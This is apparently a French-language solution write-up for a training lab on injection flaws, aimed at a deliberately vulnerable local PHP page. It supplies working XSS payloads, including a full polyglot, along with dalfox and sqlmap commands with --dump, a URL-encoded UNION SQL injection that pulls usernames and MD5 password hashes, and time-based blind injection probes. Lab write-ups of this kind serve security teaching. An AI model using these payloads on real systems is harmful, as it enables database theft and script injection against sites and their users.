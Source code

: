 # Solution
## A03 - Injection

Nous avons une page avec une injection SQL et une XSS. Pour la XSS, nous pouvons tester avec `<script>alert(1)</script>` dans le champ de recherche et cela fonctionne. Nous aurions pu aussi utiliser `"><svg/onload=alert(1)>` ou alors une polyglotte : 
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
Source : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Nous pouvons aussi utiliser l'outil [dalfox](https://github.com/hahwul/dalfox) (XSSStrike n'est plus maintenu..) pour trouver des XSS :
```bash
dalfox url http://localhost:8042/A03.php -X POST -d comment=test
```

Pour l'injection SQL nous pouvons tester avec SQLmap assez naturellement :
```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

Nous pouvons aussi tester avec des injections manuelles :
```sql
http://localhost:8042/A03.php?username=admi%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x71786b6a71%2CJSON_ARRAYAGG%28CONCAT_WS%280x6176666d7877%2Cid%2Cmd5_password%2Cusername%29%29%2C0x717a767171%29%2CNULL%20FROM%20vulnerable_app.users--%20-
```

Nous obtenons le flag.

# Other method with SQL injection Time Based
```bash
git clone https://github.com/Orangiuss/SQLTimeProbe.git
python3 SQLTimeProbe.py -u http://localhost:8042/A03.php -p "username=<@urlencode>admin' AND (SELECT 8443 FROM (SELECT(FUZZ))QqUO) AND 'Mnsp'='Mnsp<@/urlencode>" -V

python3 SQLTimeProbe.py -u http://localhost:8042/A03.php -p "username=<@urlencode>admin' AND (SELECT 8443 FROM (SELECT(FUZZ))QqUO) AND 'Mnsp'='Mnsp<@/urlencode>" -a
```
